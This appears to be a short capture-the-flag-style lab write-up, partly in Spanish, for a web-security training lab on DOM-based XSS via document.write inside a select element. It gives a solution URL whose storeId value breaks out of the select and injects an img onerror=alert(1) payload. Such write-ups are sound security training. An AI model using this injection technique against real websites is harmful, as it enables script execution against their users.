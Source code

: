 # 03 Lab: DOM XSS in document.write sink using source location.search inside a select element

```jsx
This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function.
```

Vemos que existe un script en  Js que utiliza el parametro storeID

![image.png](03%20Lab%20DOM%20XSS%20in%20document%20write%20sink%20using%20source%2017efab5460ec8118aca9ebf44a6fe997/image.png)

![image.png](03%20Lab%20DOM%20XSS%20in%20document%20write%20sink%20using%20source%2017efab5460ec8118aca9ebf44a6fe997/image%201.png)

```jsx
https://0aa800c20475fc67da62f1fd006e0086.web-security-academy.net/product?productId=1&&storeId=%22%3E%3C/select%3E%3Cimg%20src=1%20onerror=alert(1)%3E
```

![image.png](03%20Lab%20DOM%20XSS%20in%20document%20write%20sink%20using%20source%2017efab5460ec8118aca9ebf44a6fe997/image%202.png)

![image.png](03%20Lab%20DOM%20XSS%20in%20document%20write%20sink%20using%20source%2017efab5460ec8118aca9ebf44a6fe997/image%203.png)